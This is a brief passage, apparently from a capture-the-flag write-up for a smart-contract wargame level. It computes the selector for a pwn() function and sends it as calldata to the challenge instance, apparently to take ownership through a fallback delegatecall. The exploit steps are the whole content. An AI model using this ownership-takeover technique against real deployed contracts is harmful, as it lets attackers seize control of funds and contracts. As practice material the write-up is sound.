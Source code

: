 1) web3.eth.abi.encodeFunctionSignature('pwn()')

    '0xdd365b8b'


2) await sendTransaction({to: instance, data: '0xdd365b8b', from: player})
